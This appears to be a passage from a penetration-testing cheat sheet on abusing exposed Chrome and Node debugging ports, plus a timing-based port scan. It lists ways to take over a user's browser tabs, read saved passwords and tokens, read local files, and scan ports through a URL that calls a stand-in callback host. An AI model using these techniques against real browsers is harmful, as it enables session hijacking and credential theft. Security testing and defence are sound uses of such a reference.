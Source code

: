 > [!NOTE]  
> Since Chrome update from December 20, 2022, you must start the browser with the argument `--remote-allow-origins="*"` to connect to the websocket with WhiteChocolateMacademiaNut.

**Exploits**:

* Connect and interact with the browser: `chrome://inspect/#devices`, `opera://inspect/#devices`
* Kill the currently running browser and use the `--restore-last-session` to get access to the user's tabs
* Data stored in the settings (username, passwords, token): `chrome://settings`
* Port Scan: In a loop open `http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* Leak UUID: Iframe: `http://127.0.0.1:<port>/json/version`

    ```json
    {
        "Browser": "Chrome/136.0.7103.113",
        "Protocol-Version": "1.3",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/136.0.0.0 Safari/537.36",
        "V8-Version": "13.6.233.10",
        "WebKit-Version": "537.36 (@76fa3c1782406c63308c70b54f228fd39c7aaa71)",
        "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/browser/d815e18d-57e6-4274-a307-98649a9e6b87"
    }
    ```

* Local File Read: [pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` works like a `--remote-debugging-port`

    ```ps1
    node --inspect app.js # default port 9229
    node --inspect=4444 app.js # custom port 4444
    node --inspect=0.0.0.0:4444 app.js
    ```

Starting from Chrome 136, the switches `--remote-debugging-port` and `--remote-debugging-pipe` won't be respected if attempting to debug the default Chrome data directory. These switches must now be accompanied by the `--user-data-dir` switch to point to a non-standard directory.

The flag `--user-data-dir=/path/to/data_dir` is used to specify the user's data directory, where Chromium stores all of its application data such as cookies and history. If you start Chromium without specifying this flag, you’ll notice that none of your bookmarks, favorites, or history will be loaded into the browser.

## Network

### Port Scanning

Port Scanning: Timing attack

* Dynamically insert an `<img>` tag pointing to a hypothetical closed port. Measure time to onerror.
* Repeat at least 10 times → average time to get an error for a closed port
* Test random port 10 times and measure time to error
* If `time_to_error(random_port) > time_to_error(closed_port)*1.3` → port is opened
